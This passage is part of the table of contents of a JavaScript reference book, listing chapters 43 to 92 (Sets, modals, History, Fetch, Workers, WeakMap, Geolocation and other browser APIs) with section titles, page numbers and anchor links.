[277](#section-43.2-adding-a-value-to-a-set)](#section-43.2-adding-a-value-to-a-set)

[Section 43.3: Removing value from a set
[277](#section-43.3-removing-value-from-a-set)](#section-43.3-removing-value-from-a-set)

[Section 43.4: Checking if a value exist in a set
[278](#section-43.4-checking-if-a-value-exist-in-a-set)](#section-43.4-checking-if-a-value-exist-in-a-set)

[Section 43.5: Clearing a Set
[278](#section-43.5-clearing-a-set)](#section-43.5-clearing-a-set)

[Section 43.6: Getting set length
[278](#section-43.6-getting-set-length)](#section-43.6-getting-set-length)

[Section 43.7: Converting Sets to arrays
[278](#section-43.7-converting-sets-to-arrays)](#section-43.7-converting-sets-to-arrays)

[Section 43.8: Intersection and dierence in Sets
[279](#section-43.8-intersection-and-dierence-in-sets)](#section-43.8-intersection-and-dierence-in-sets)

[Section 43.9: Iterating Sets
[279](#section-43.9-iterating-sets)](#section-43.9-iterating-sets)

[**Chapter 44: Modals - Prompts**
[280](#chapter-44-modalsprompts)](#chapter-44-modalsprompts)

[Section 44.1: About User Prompts
[280](#section-44.1-about-user-prompts)](#section-44.1-about-user-prompts)

[Section 44.2: Persistent Prompt Modal
[280](#section-44.2-persistent-prompt-modal)](#section-44.2-persistent-prompt-modal)

[Section 44.3: Confirm to Delete element
[281](#section-44.3-confirm-to-delete-element)](#section-44.3-confirm-to-delete-element)

[Section 44.4: Usage of alert()
[281](#section-44.4-usage-of-alert)](#section-44.4-usage-of-alert)

[Section 44.5: Usage of prompt()
[282](#section-44.5-usage-of-prompt)](#section-44.5-usage-of-prompt)

[**Chapter 45: execCommand and contenteditable**
[283](#chapter-45-execcommand-and-contenteditable)](#chapter-45-execcommand-and-contenteditable)

[Section 45.1: Listening to Changes of contenteditable
[284](#section-45.1-listening-to-changes-of-contenteditable)](#section-45.1-listening-to-changes-of-contenteditable)

[Section 45.2: Getting started
[284](#section-45.2-getting-started)](#section-45.2-getting-started)

[Section 45.3: Copy to clipboard from textarea using
execCommand(\"copy\")
[285](#section-45.3-copy-to-clipboard-from-textarea-using-execcommandcopy)](#section-45.3-copy-to-clipboard-from-textarea-using-execcommandcopy)

[Section 45.4: Formatting
[285](#section-45.4-formatting)](#section-45.4-formatting)

[**Chapter 46: History**
[287](#chapter-46-history)](#chapter-46-history)

[Section 46.1: history.pushState()
[287](#section-46.1-history.pushstate)](#section-46.1-history.pushstate)

[Section 46.2: history.replaceState()
[287](#section-46.2-history.replacestate)](#section-46.2-history.replacestate)

[Section 46.3: Load a specific URL from the history list
[287](#section-46.3-load-a-specific-url-from-the-history-list)](#section-46.3-load-a-specific-url-from-the-history-list)

[**Chapter 47: Navigator Object**
[289](#chapter-47-navigator-object)](#chapter-47-navigator-object)

[Section 47.1: Get some basic browser data and return it as a JSON
object
[289](#section-47.1-get-some-basic-browser-data-and-return-it-as-a-json-object)](#section-47.1-get-some-basic-browser-data-and-return-it-as-a-json-object)

[**Chapter 48: BOM (Browser Object Model)**
[290](#chapter-48-bom-browser-object-model)](#chapter-48-bom-browser-object-model)

[Section 48.1: Introduction
[290](#section-48.1-introduction)](#section-48.1-introduction)

[Section 48.2: Window Object Properties
[290](#section-48.2-window-object-properties)](#section-48.2-window-object-properties)

[Section 48.3: Window Object Methods
[291](#section-48.3-window-object-methods)](#section-48.3-window-object-methods)

[**Chapter 49: The Event Loop**
[292](#chapter-49-the-event-loop)](#chapter-49-the-event-loop)

[Section 49.1: The event loop in a web browser
[292](#section-49.1-the-event-loop-in-a-web-browser)](#section-49.1-the-event-loop-in-a-web-browser)

[Section 49.2: Asynchronous operations and the event loop
[293](#section-49.2-asynchronous-operations-and-the-event-loop)](#section-49.2-asynchronous-operations-and-the-event-loop)

[**Chapter 50: Strict mode**
[294](#chapter-50-strict-mode)](#chapter-50-strict-mode)

[Section 50.1: For entire scripts
[294](#section-50.1-for-entire-scripts)](#section-50.1-for-entire-scripts)

[Section 50.2: For functions
[294](#section-50.2-for-functions)](#section-50.2-for-functions)

[Section 50.3: Changes to properties
[294](#section-50.3-changes-to-properties)](#section-50.3-changes-to-properties)

[Section 50.4: Changes to global properties
[295](#section-50.4-changes-to-global-properties)](#section-50.4-changes-to-global-properties)

[Section 50.5: Duplicate Parameters
[296](#section-50.5-duplicate-parameters)](#section-50.5-duplicate-parameters)

[Section 50.6: Function scoping in strict mode
[296](#section-50.6-function-scoping-in-strict-mode)](#section-50.6-function-scoping-in-strict-mode)

[Section 50.7: Behaviour of a function\'s arguments list
[296](#section-50.7-behaviour-of-a-functions-arguments-list)](#section-50.7-behaviour-of-a-functions-arguments-list)

[Section 50.8: Non-Simple parameter lists
[297](#section-50.8-non-simple-parameter-lists)](#section-50.8-non-simple-parameter-lists)

[**Chapter 51: Custom Elements**
[299](#chapter-51-custom-elements)](#chapter-51-custom-elements)

[Section 51.1: Extending Native Elements
[299](#section-51.1-extending-native-elements)](#section-51.1-extending-native-elements)

[Section 51.2: Registering New Elements
[299](#section-51.2-registering-new-elements)](#section-51.2-registering-new-elements)

[**Chapter 52: Data Manipulation**
[300](#chapter-52-data-manipulation)](#chapter-52-data-manipulation)

[Section 52.1: Format numbers as money
[300](#section-52.1-format-numbers-as-money)](#section-52.1-format-numbers-as-money)

[Section 52.2: Extract extension from file name
[300](#section-52.2-extract-extension-from-file-name)](#section-52.2-extract-extension-from-file-name)

[Section 52.3: Set object property given its string name
[301](#section-52.3-set-object-property-given-its-string-name)](#section-52.3-set-object-property-given-its-string-name)

[**Chapter 53: Binary Data**
[302](#chapter-53-binary-data)](#chapter-53-binary-data)

[Section 53.1: Getting binary representation of an image file
[302](#section-53.1-getting-binary-representation-of-an-image-file)](#section-53.1-getting-binary-representation-of-an-image-file)

[Section 53.2: Converting between Blobs and ArrayBuers
[302](#section-53.2-converting-between-blobs-and-arraybuers)](#section-53.2-converting-between-blobs-and-arraybuers)

[Section 53.3: Manipulating ArrayBuers with DataViews
[303](#section-53.3-manipulating-arraybuers-with-dataviews)](#section-53.3-manipulating-arraybuers-with-dataviews)

[Section 53.4: Creating a TypedArray from a Base64 string
[303](#section-53.4-creating-a-typedarray-from-a-base64-string)](#section-53.4-creating-a-typedarray-from-a-base64-string)

[Section 53.5: Using TypedArrays
[304](#section-53.5-using-typedarrays)](#section-53.5-using-typedarrays)

[Section 53.6: Iterating through an arrayBuer
[304](#section-53.6-iterating-through-an-arraybuer)](#section-53.6-iterating-through-an-arraybuer)

[**Chapter 54: Template Literals**
[306](#chapter-54-template-literals)](#chapter-54-template-literals)

[Section 54.1: Basic interpolation and multiline strings
[306](#section-54.1-basic-interpolation-and-multiline-strings)](#section-54.1-basic-interpolation-and-multiline-strings)

[Section 54.2: Tagged strings
[306](#section-54.2-tagged-strings)](#section-54.2-tagged-strings)

[Section 54.3: Raw strings
[307](#section-54.3-raw-strings)](#section-54.3-raw-strings)

[Section 54.4: Templating HTML With Template Strings
[307](#section-54.4-templating-html-with-template-strings)](#section-54.4-templating-html-with-template-strings)

[Section 54.5: Introduction
[308](#section-54.5-introduction)](#section-54.5-introduction)

[**Chapter 55: Fetch** [309](#chapter-55-fetch)](#chapter-55-fetch)

[Section 55.1: Getting JSON data
[309](#section-55.1-getting-json-data)](#section-55.1-getting-json-data)

[Section 55.2: Set Request Headers
[309](#section-55.2-set-request-headers)](#section-55.2-set-request-headers)

[Section 55.3: POST Data
[309](#section-55.3-post-data)](#section-55.3-post-data)

[Section 55.4: Send cookies
[310](#section-55.4-send-cookies)](#section-55.4-send-cookies)

[Section 55.5: GlobalFetch
[310](#section-55.5-globalfetch)](#section-55.5-globalfetch)

[Section 55.6: Using Fetch to Display Questions from the Stack Overflow
API
[310](#section-55.6-using-fetch-to-display-questions-from-the-stack-overflow-api)](#section-55.6-using-fetch-to-display-questions-from-the-stack-overflow-api)

[**Chapter 56: Scope** [311](#chapter-56-scope)](#chapter-56-scope)

[Section 56.1: Closures
[311](#section-56.1-closures)](#section-56.1-closures)

[Section 56.2: Hoisting
[312](#section-56.2-hoisting)](#section-56.2-hoisting)

[Section 56.3: Dierence between var and let
[315](#section-56.3-dierence-between-var-and-let)](#section-56.3-dierence-between-var-and-let)

[Section 56.4: Apply and Call syntax and invocation
[317](#section-56.4-apply-and-call-syntax-and-invocation)](#section-56.4-apply-and-call-syntax-and-invocation)

[Section 56.5: Arrow function invocation
[318](#section-56.5-arrow-function-invocation)](#section-56.5-arrow-function-invocation)

[Section 56.6: Bound invocation
[319](#section-56.6-bound-invocation)](#section-56.6-bound-invocation)

[Section 56.7: Method invocation
[319](#section-56.7-method-invocation)](#section-56.7-method-invocation)

[Section 56.8: Anonymous invocation
[320](#section-56.8-anonymous-invocation)](#section-56.8-anonymous-invocation)

[Section 56.9: Constructor invocation
[320](#section-56.9-constructor-invocation)](#section-56.9-constructor-invocation)

[Section 56.10: Using let in loops instead of var (click handlers
example)
[320](#section-56.10-using-let-in-loops-instead-of-var-click-handlers-example)](#section-56.10-using-let-in-loops-instead-of-var-click-handlers-example)

[**Chapter 57: Modules**
[322](#chapter-57-modules)](#chapter-57-modules)

[Section 57.1: Defining a module
[322](#section-57.1-defining-a-module)](#section-57.1-defining-a-module)

[Section 57.2: Default exports
[322](#section-57.2-default-exports)](#section-57.2-default-exports)

[Section 57.3: Importing named members from another module
[323](#section-57.3-importing-named-members-from-another-module)](#section-57.3-importing-named-members-from-another-module)

[Section 57.4: Importing an entire module
[323](#section-57.4-importing-an-entire-module)](#section-57.4-importing-an-entire-module)

[Section 57.5: Importing named members with aliases
[324](#section-57.5-importing-named-members-with-aliases)](#section-57.5-importing-named-members-with-aliases)

[Section 57.6: Importing with side eects
[324](#section-57.6-importing-with-side-eects)](#section-57.6-importing-with-side-eects)

[Section 57.7: Exporting multiple named members
[324](#section-57.7-exporting-multiple-named-members)](#section-57.7-exporting-multiple-named-members)

[**Chapter 58: Screen** [325](#chapter-58-screen)](#chapter-58-screen)

[Section 58.1: Getting the screen resolution
[325](#section-58.1-getting-the-screen-resolution)](#section-58.1-getting-the-screen-resolution)

[Section 58.2: Getting the "available" area of the screen
[325](#section-58.2-getting-the-available-area-of-the-screen)](#section-58.2-getting-the-available-area-of-the-screen)

[Section 58.3: Page width and height
[325](#section-58.3-page-width-and-height)](#section-58.3-page-width-and-height)

[Section 58.4: Window innerWidth and innerHeight Properties
[325](#section-58.4-window-innerwidth-and-innerheight-properties)](#section-58.4-window-innerwidth-and-innerheight-properties)

[Section 58.5: Getting color information about the screen
[325](#section-58.5-getting-color-information-about-the-screen)](#section-58.5-getting-color-information-about-the-screen)

[**Chapter 59: Variable coercion/conversion**
[326](#chapter-59-variable-coercionconversion)](#chapter-59-variable-coercionconversion)

[Section 59.1: Double Negation (!!x)
[326](#section-59.1-double-negation-x)](#section-59.1-double-negation-x)

[Section 59.2: Implicit conversion
[326](#section-59.2-implicit-conversion)](#section-59.2-implicit-conversion)

[Section 59.3: Converting to boolean
[326](#section-59.3-converting-to-boolean)](#section-59.3-converting-to-boolean)

[Section 59.4: Converting a string to a number
[327](#section-59.4-converting-a-string-to-a-number)](#section-59.4-converting-a-string-to-a-number)

[Section 59.5: Converting a number to a string
[328](#section-59.5-converting-a-number-to-a-string)](#section-59.5-converting-a-number-to-a-string)

[Section 59.6: Primitive to Primitive conversion table
[328](#section-59.6-primitive-to-primitive-conversion-table)](#section-59.6-primitive-to-primitive-conversion-table)

[Section 59.7: Convert an array to a string
[328](#section-59.7-convert-an-array-to-a-string)](#section-59.7-convert-an-array-to-a-string)

[Section 59.8: Array to String using array methods
[329](#section-59.8-array-to-string-using-array-methods)](#section-59.8-array-to-string-using-array-methods)

[Section 59.9: Converting a number to a boolean
[329](#section-59.9-converting-a-number-to-a-boolean)](#section-59.9-converting-a-number-to-a-boolean)

[Section 59.10: Converting a string to a boolean
[329](#section-59.10-converting-a-string-to-a-boolean)](#section-59.10-converting-a-string-to-a-boolean)

[Section 59.11: Integer to Float
[329](#section-59.11-integer-to-float)](#section-59.11-integer-to-float)

[Section 59.12: Float to Integer
[330](#section-59.12-float-to-integer)](#section-59.12-float-to-integer)

[Section 59.13: Convert string to float
[330](#section-59.13-convert-string-to-float)](#section-59.13-convert-string-to-float)

[**Chapter 60: Destructuring assignment**
[331](#chapter-60-destructuring-assignment)](#chapter-60-destructuring-assignment)

[Section 60.1: Destructuring Objects
[331](#section-60.1-destructuring-objects)](#section-60.1-destructuring-objects)

[Section 60.2: Destructuring function arguments
[332](#section-60.2-destructuring-function-arguments)](#section-60.2-destructuring-function-arguments)

[Section 60.3: Nested Destructuring
[332](#section-60.3-nested-destructuring)](#section-60.3-nested-destructuring)

[Section 60.4: Destructuring Arrays
[333](#section-60.4-destructuring-arrays)](#section-60.4-destructuring-arrays)

[Section 60.5: Destructuring inside variables
[333](#section-60.5-destructuring-inside-variables)](#section-60.5-destructuring-inside-variables)

[Section 60.6: Default Value While Destructuring
[334](#section-60.6-default-value-while-destructuring)](#section-60.6-default-value-while-destructuring)

[Section 60.7: Renaming Variables While Destructuring
[334](#section-60.7-renaming-variables-while-destructuring)](#section-60.7-renaming-variables-while-destructuring)

[**Chapter 61: WebSockets**
[335](#chapter-61-websockets)](#chapter-61-websockets)

[Section 61.1: Working with string messages
[335](#section-61.1-working-with-string-messages)](#section-61.1-working-with-string-messages)

[Section 61.2: Establish a web socket connection
[335](#section-61.2-establish-a-web-socket-connection)](#section-61.2-establish-a-web-socket-connection)

[Section 61.3: Working with binary messages
[335](#section-61.3-working-with-binary-messages)](#section-61.3-working-with-binary-messages)

[Section 61.4: Making a secure web socket connection
[336](#section-61.4-making-a-secure-web-socket-connection)](#section-61.4-making-a-secure-web-socket-connection)

[**Chapter 62: Arrow Functions**
[337](#chapter-62-arrow-functions)](#chapter-62-arrow-functions)

[Section 62.1: Introduction
[337](#section-62.1-introduction)](#section-62.1-introduction)

[Section 62.2: Lexical Scoping & Binding (Value of \"this\")
[337](#section-62.2-lexical-scoping-binding-value-of-this)](#section-62.2-lexical-scoping-binding-value-of-this)

[Section 62.3: Arguments Object
[338](#section-62.3-arguments-object)](#section-62.3-arguments-object)

[Section 62.4: Implicit Return
[338](#section-62.4-implicit-return)](#section-62.4-implicit-return)

[Section 62.5: Arrow functions as a constructor
[339](#section-62.5-arrow-functions-as-a-constructor)](#section-62.5-arrow-functions-as-a-constructor)

[Section 62.6: Explicit Return
[339](#section-62.6-explicit-return)](#section-62.6-explicit-return)

[**Chapter 63: Workers**
[340](#chapter-63-workers)](#chapter-63-workers)

[Section 63.1: Web Worker
[340](#section-63.1-web-worker)](#section-63.1-web-worker)

[Section 63.2: A simple service worker
[340](#section-63.2-a-simple-service-worker)](#section-63.2-a-simple-service-worker)

[Section 63.3: Register a service worker
[341](#section-63.3-register-a-service-worker)](#section-63.3-register-a-service-worker)

[Section 63.4: Communicating with a Web Worker
[341](#section-63.4-communicating-with-a-web-worker)](#section-63.4-communicating-with-a-web-worker)

[Section 63.5: Terminate a worker
[342](#section-63.5-terminate-a-worker)](#section-63.5-terminate-a-worker)

[Section 63.6: Populating your cache
[343](#section-63.6-populating-your-cache)](#section-63.6-populating-your-cache)

[Section 63.7: Dedicated Workers and Shared Workers
[343](#section-63.7-dedicated-workers-and-shared-workers)](#section-63.7-dedicated-workers-and-shared-workers)

[**Chapter 64: requestAnimationFrame**
[345](#chapter-64-requestanimationframe)](#chapter-64-requestanimationframe)

[Section 64.1: Use requestAnimationFrame to fade in element
[345](#section-64.1-use-requestanimationframe-to-fade-in-element)](#section-64.1-use-requestanimationframe-to-fade-in-element)

[Section 64.2: Keeping Compatibility
[346](#section-64.2-keeping-compatibility)](#section-64.2-keeping-compatibility)

[Section 64.3: Cancelling an Animation
[346](#section-64.3-cancelling-an-animation)](#section-64.3-cancelling-an-animation)

[**Chapter 65: Creational Design Patterns**
[348](#chapter-65-creational-design-patterns)](#chapter-65-creational-design-patterns)

[Section 65.1: Factory Functions
[348](#section-65.1-factory-functions)](#section-65.1-factory-functions)

[Section 65.2: Factory with Composition
[349](#section-65.2-factory-with-composition)](#section-65.2-factory-with-composition)

[Section 65.3: Module and Revealing Module Patterns
[350](#section-65.3-module-and-revealing-module-patterns)](#section-65.3-module-and-revealing-module-patterns)

[Section 65.4: Prototype Pattern
[352](#section-65.4-prototype-pattern)](#section-65.4-prototype-pattern)

[Section 65.5: Singleton Pattern
[353](#section-65.5-singleton-pattern)](#section-65.5-singleton-pattern)

[Section 65.6: Abstract Factory Pattern
[354](#section-65.6-abstract-factory-pattern)](#section-65.6-abstract-factory-pattern)

[**Chapter 66: Detecting browser**
[355](#chapter-66-detecting-browser)](#chapter-66-detecting-browser)

[Section 66.1: Feature Detection Method
[355](#section-66.1-feature-detection-method)](#section-66.1-feature-detection-method)

[Section 66.2: User Agent Detection
[355](#section-66.2-user-agent-detection)](#section-66.2-user-agent-detection)

[Section 66.3: Library Method
[356](#section-66.3-library-method)](#section-66.3-library-method)

[**Chapter 67: Symbols**
[357](#chapter-67-symbols)](#chapter-67-symbols)

[Section 67.1: Basics of symbol primitive type
[357](#section-67.1-basics-of-symbol-primitive-type)](#section-67.1-basics-of-symbol-primitive-type)

[Section 67.2: Using Symbol.for() to create global, shared symbols
[357](#section-67.2-using-symbol.for-to-create-global-shared-symbols)](#section-67.2-using-symbol.for-to-create-global-shared-symbols)

[Section 67.3: Converting a symbol into a string
[357](#section-67.3-converting-a-symbol-into-a-string)](#section-67.3-converting-a-symbol-into-a-string)

[**Chapter 68: Transpiling**
[359](#chapter-68-transpiling)](#chapter-68-transpiling)

[Section 68.1: Introduction to Transpiling
[359](#section-68.1-introduction-to-transpiling)](#section-68.1-introduction-to-transpiling)

[Section 68.2: Start using ES6/7 with Babel
[360](#section-68.2-start-using-es67-with-babel)](#section-68.2-start-using-es67-with-babel)

[**Chapter 69: Automatic Semicolon Insertion - ASI**
[361](#chapter-69-automatic-semicolon-insertionasi)](#chapter-69-automatic-semicolon-insertionasi)

[Section 69.1: Avoid semicolon insertion on return statements
[361](#section-69.1-avoid-semicolon-insertion-on-return-statements)](#section-69.1-avoid-semicolon-insertion-on-return-statements)

[Section 69.2: Rules of Automatic Semicolon Insertion
[361](#section-69.2-rules-of-automatic-semicolon-insertion)](#section-69.2-rules-of-automatic-semicolon-insertion)

[Section 69.3: Statements aected by automatic semicolon insertion
[362](#section-69.3-statements-aected-by-automatic-semicolon-insertion)](#section-69.3-statements-aected-by-automatic-semicolon-insertion)

[**Chapter 70: Localization**
[364](#chapter-70-localization)](#chapter-70-localization)

[Section 70.1: Number formatting
[364](#section-70.1-number-formatting)](#section-70.1-number-formatting)

[Section 70.2: Currency formatting
[364](#section-70.2-currency-formatting)](#section-70.2-currency-formatting)

[Section 70.3: Date and time formatting
[364](#section-70.3-date-and-time-formatting)](#section-70.3-date-and-time-formatting)

[**Chapter 71: Geolocation**
[365](#chapter-71-geolocation)](#chapter-71-geolocation)

[Section 71.1: Get updates when a user\'s location changes
[365](#section-71.1-get-updates-when-a-users-location-changes)](#section-71.1-get-updates-when-a-users-location-changes)

[Section 71.2: Get a user\'s latitude and longitude
[365](#section-71.2-get-a-users-latitude-and-longitude)](#section-71.2-get-a-users-latitude-and-longitude)

[Section 71.3: More descriptive error codes
[365](#section-71.3-more-descriptive-error-codes)](#section-71.3-more-descriptive-error-codes)

[**Chapter 72: IndexedDB**
[367](#chapter-72-indexeddb)](#chapter-72-indexeddb)

[Section 72.1: Opening a database
[367](#section-72.1-opening-a-database)](#section-72.1-opening-a-database)

[Section 72.2: Adding objects
[367](#section-72.2-adding-objects)](#section-72.2-adding-objects)

[Section 72.3: Retrieving data
[368](#section-72.3-retrieving-data)](#section-72.3-retrieving-data)

[Section 72.4: Testing for IndexedDB availability
[369](#section-72.4-testing-for-indexeddb-availability)](#section-72.4-testing-for-indexeddb-availability)

[**Chapter 73: Modularization Techniques**
[370](#chapter-73-modularization-techniques)](#chapter-73-modularization-techniques)

[Section 73.1: ES6 Modules
[370](#section-73.1-es6-modules)](#section-73.1-es6-modules)

[Section 73.2: Universal Module Definition (UMD)
[370](#section-73.2-universal-module-definition-umd)](#section-73.2-universal-module-definition-umd)

[Section 73.3: Immediately invoked function expressions (IIFE)
[371](#section-73.3-immediately-invoked-function-expressions-iife)](#section-73.3-immediately-invoked-function-expressions-iife)

[Section 73.4: Asynchronous Module Definition (AMD)
[371](#section-73.4-asynchronous-module-definition-amd)](#section-73.4-asynchronous-module-definition-amd)

[Section 73.5: CommonJS - Node.js
[372](#section-73.5-commonjsnode.js)](#section-73.5-commonjsnode.js)

[**Chapter 74: Proxy** [374](#chapter-74-proxy)](#chapter-74-proxy)

[Section 74.1: Proxying property lookup
[374](#section-74.1-proxying-property-lookup)](#section-74.1-proxying-property-lookup)

[Section 74.2: Very simple proxy (using the set trap)
[374](#section-74.2-very-simple-proxy-using-the-set-trap)](#section-74.2-very-simple-proxy-using-the-set-trap)

[**Chapter 75: .postMessage() and MessageEvent**
[376](#chapter-75-.postmessage-and-messageevent)](#chapter-75-.postmessage-and-messageevent)

[Section 75.1: Getting Started
[376](#section-75.1-getting-started)](#section-75.1-getting-started)

[**Chapter 76: WeakMap**
[379](#chapter-76-weakmap)](#chapter-76-weakmap)

[Section 76.1: Creating a WeakMap object
[379](#section-76.1-creating-a-weakmap-object)](#section-76.1-creating-a-weakmap-object)

[Section 76.2: Getting a value associated to the key
[379](#section-76.2-getting-a-value-associated-to-the-key)](#section-76.2-getting-a-value-associated-to-the-key)

[Section 76.3: Assigning a value to the key
[379](#section-76.3-assigning-a-value-to-the-key)](#section-76.3-assigning-a-value-to-the-key)

[Section 76.4: Checking if an element with the key exists
[379](#section-76.4-checking-if-an-element-with-the-key-exists)](#section-76.4-checking-if-an-element-with-the-key-exists)

[Section 76.5: Removing an element with the key
[380](#section-76.5-removing-an-element-with-the-key)](#section-76.5-removing-an-element-with-the-key)

[Section 76.6: Weak reference demo
[380](#section-76.6-weak-reference-demo)](#section-76.6-weak-reference-demo)

[**Chapter 77: WeakSet**
[382](#chapter-77-weakset)](#chapter-77-weakset)

[Section 77.1: Creating a WeakSet object
[382](#section-77.1-creating-a-weakset-object)](#section-77.1-creating-a-weakset-object)

[Section 77.2: Adding a value
[382](#section-77.2-adding-a-value)](#section-77.2-adding-a-value)

[Section 77.3: Checking if a value exists
[382](#section-77.3-checking-if-a-value-exists)](#section-77.3-checking-if-a-value-exists)

[Section 77.4: Removing a value
[382](#section-77.4-removing-a-value)](#section-77.4-removing-a-value)

[**Chapter 78: Escape Sequences**
[383](#chapter-78-escape-sequences)](#chapter-78-escape-sequences)

[Section 78.1: Entering special characters in strings and regular
expressions
[383](#section-78.1-entering-special-characters-in-strings-and-regular-expressions)](#section-78.1-entering-special-characters-in-strings-and-regular-expressions)

[Section 78.2: Escape sequence types
[383](#section-78.2-escape-sequence-types)](#section-78.2-escape-sequence-types)

[**Chapter 79: Behavioral Design Patterns**
[386](#chapter-79-behavioral-design-patterns)](#chapter-79-behavioral-design-patterns)

[Section 79.1: Observer pattern
[386](#section-79.1-observer-pattern)](#section-79.1-observer-pattern)

[Section 79.2: Mediator Pattern
[387](#section-79.2-mediator-pattern)](#section-79.2-mediator-pattern)

[Section 79.3: Command
[388](#section-79.3-command)](#section-79.3-command)

[Section 79.4: Iterator
[389](#section-79.4-iterator)](#section-79.4-iterator)

[**Chapter 80: Server-sent events**
[391](#chapter-80-server-sent-events)](#chapter-80-server-sent-events)

[Section 80.1: Setting up a basic event stream to the server
[391](#section-80.1-setting-up-a-basic-event-stream-to-the-server)](#section-80.1-setting-up-a-basic-event-stream-to-the-server)

[Section 80.2: Closing an event stream
[391](#section-80.2-closing-an-event-stream)](#section-80.2-closing-an-event-stream)

[Section 80.3: Binding event listeners to EventSource
[391](#section-80.3-binding-event-listeners-to-eventsource)](#section-80.3-binding-event-listeners-to-eventsource)

[**Chapter 81: Async functions (async/await)**
[393](#chapter-81-async-functions-asyncawait)](#chapter-81-async-functions-asyncawait)

[Section 81.1: Introduction
[393](#section-81.1-introduction)](#section-81.1-introduction)

[Section 81.2: Await and operator precedence
[393](#section-81.2-await-and-operator-precedence)](#section-81.2-await-and-operator-precedence)

[Section 81.3: Async functions compared to Promises
[394](#section-81.3-async-functions-compared-to-promises)](#section-81.3-async-functions-compared-to-promises)

[Section 81.4: Looping with async await
[395](#section-81.4-looping-with-async-await)](#section-81.4-looping-with-async-await)

[Section 81.5: Less indentation
[396](#section-81.5-less-indentation)](#section-81.5-less-indentation)

[Section 81.6: Simultaneous async (parallel) operations
[397](#section-81.6-simultaneous-async-parallel-operations)](#section-81.6-simultaneous-async-parallel-operations)

[**Chapter 82: Async Iterators**
[398](#chapter-82-async-iterators)](#chapter-82-async-iterators)

[Section 82.1: Basics [398](#section-82.1-basics)](#section-82.1-basics)

[**Chapter 83: How to make iterator usable inside async callback
function**
[399](#chapter-83-how-to-make-iterator-usable-inside-async-callback-function)](#chapter-83-how-to-make-iterator-usable-inside-async-callback-function)

[Section 83.1: Erroneous code, can you spot why this usage of key will
lead to bugs?
[399](#section-83.1-erroneous-code-can-you-spot-why-this-usage-of-key-will-lead-to-bugs)](#section-83.1-erroneous-code-can-you-spot-why-this-usage-of-key-will-lead-to-bugs)

[Section 83.2: Correct Writing
[399](#section-83.2-correct-writing)](#section-83.2-correct-writing)

[**Chapter 84: Tail Call Optimization**
[400](#chapter-84-tail-call-optimization)](#chapter-84-tail-call-optimization)

[Section 84.1: What is Tail Call Optimization (TCO)
[400](#section-84.1-what-is-tail-call-optimization-tco)](#section-84.1-what-is-tail-call-optimization-tco)

[Section 84.2: Recursive loops
[400](#section-84.2-recursive-loops)](#section-84.2-recursive-loops)

[**Chapter 85: Bitwise Operators - Real World Examples (snippets)**
[401](#chapter-85-bitwise-operatorsreal-world-examples-snippets)](#chapter-85-bitwise-operatorsreal-world-examples-snippets)

[Section 85.1: Swapping Two Integers with Bitwise XOR (without
additional memory allocation)
[401](#section-85.1-swapping-two-integers-with-bitwise-xor-without-additional-memory-allocation)](#section-85.1-swapping-two-integers-with-bitwise-xor-without-additional-memory-allocation)

[Section 85.2: Faster multiplication or division by powers of 2
[401](#section-85.2-faster-multiplication-or-division-by-powers-of-2)](#section-85.2-faster-multiplication-or-division-by-powers-of-2)

[Section 85.3: Number\'s Parity Detection with Bitwise AND
[401](#section-85.3-numbers-parity-detection-with-bitwise-and)](#section-85.3-numbers-parity-detection-with-bitwise-and)

[**Chapter 86: Tilde \~** [403](#chapter-86-tilde)](#chapter-86-tilde)

[Section 86.1: \~ Integer
[403](#section-86.1-integer)](#section-86.1-integer)

[Section 86.2: \~\~ Operator
[403](#section-86.2-operator)](#section-86.2-operator)

[Section 86.3: Converting Non-numeric values to Numbers
[404](#section-86.3-converting-non-numeric-values-to-numbers)](#section-86.3-converting-non-numeric-values-to-numbers)

[Section 86.4: Shorthands
[404](#section-86.4-shorthands)](#section-86.4-shorthands)

[Section 86.5: \~ Decimal
[404](#section-86.5-decimal)](#section-86.5-decimal)

[**Chapter 87: Using JavaScript to get/set CSS custom variables**
[406](#chapter-87-using-javascript-to-getset-css-custom-variables)](#chapter-87-using-javascript-to-getset-css-custom-variables)

[Section 87.1: How to get and set CSS variable property values
[406](#section-87.1-how-to-get-and-set-css-variable-property-values)](#section-87.1-how-to-get-and-set-css-variable-property-values)

[**Chapter 88: Selection API**
[407](#chapter-88-selection-api)](#chapter-88-selection-api)

[Section 88.1: Get the text of the selection
[407](#section-88.1-get-the-text-of-the-selection)](#section-88.1-get-the-text-of-the-selection)

[Section 88.2: Deselect everything that is selected
[407](#section-88.2-deselect-everything-that-is-selected)](#section-88.2-deselect-everything-that-is-selected)

[Section 88.3: Select the contents of an element
[407](#section-88.3-select-the-contents-of-an-element)](#section-88.3-select-the-contents-of-an-element)

[**Chapter 89: File API, Blobs and FileReaders**
[408](#chapter-89-file-api-blobs-and-filereaders)](#chapter-89-file-api-blobs-and-filereaders)

[Section 89.1: Read file as string
[408](#section-89.1-read-file-as-string)](#section-89.1-read-file-as-string)

[Section 89.2: Read file as dataURL
[408](#section-89.2-read-file-as-dataurl)](#section-89.2-read-file-as-dataurl)

[Section 89.3: Slice a file
[409](#section-89.3-slice-a-file)](#section-89.3-slice-a-file)

[Section 89.4: Get the properties of the file
[409](#section-89.4-get-the-properties-of-the-file)](#section-89.4-get-the-properties-of-the-file)

[Section 89.5: Selecting multiple files and restricting file types
[410](#section-89.5-selecting-multiple-files-and-restricting-file-types)](#section-89.5-selecting-multiple-files-and-restricting-file-types)

[Section 89.6: Client side csv download using Blob
[410](#section-89.6-client-side-csv-download-using-blob)](#section-89.6-client-side-csv-download-using-blob)

[**Chapter 90: Notifications API**
[411](#chapter-90-notifications-api)](#chapter-90-notifications-api)

[Section 90.1: Requesting Permission to send notifications
[411](#section-90.1-requesting-permission-to-send-notifications)](#section-90.1-requesting-permission-to-send-notifications)

[Section 90.2: Sending Notifications
[411](#section-90.2-sending-notifications)](#section-90.2-sending-notifications)

[Section 90.3: Closing a notification
[411](#section-90.3-closing-a-notification)](#section-90.3-closing-a-notification)

[Section 90.4: Notification events
[412](#section-90.4-notification-events)](#section-90.4-notification-events)

[**Chapter 91: Vibration API**
[413](#chapter-91-vibration-api)](#chapter-91-vibration-api)

[Section 91.1: Single vibration
[413](#section-91.1-single-vibration)](#section-91.1-single-vibration)

[Section 91.2: Check for support
[413](#section-91.2-check-for-support)](#section-91.2-check-for-support)

[Section 91.3: Vibration patterns
[413](#section-91.3-vibration-patterns)](#section-91.3-vibration-patterns)

[**Chapter 92: Battery Status API**
[414](#chapter-92-battery-status-api)](#chapter-92-battery-status-api)

[Section 92.1: Battery Events
[414](#section-92.1-battery-events)](#section-92.1-battery-events)

[Section 92.2: Getting current battery level
